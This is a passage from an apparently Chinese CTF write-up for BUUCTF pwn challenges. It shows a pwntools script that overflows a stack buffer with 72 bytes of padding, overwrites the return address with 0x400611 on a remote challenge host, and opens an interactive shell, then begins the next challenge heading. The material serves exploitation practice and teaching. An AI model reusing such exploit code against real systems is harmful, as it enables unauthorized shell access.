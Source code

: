 2. peda查偏移

**exp**

```python
from pwn import *
p = remote('node3.buuoj.cn','25379')
payload = "a" * 72 + p64(0x400611)
p.sendline(payload)
p.interactive()
```

3. 执行结果

![](截图\7.4.png)

### 4.pwn1_sctf_2016
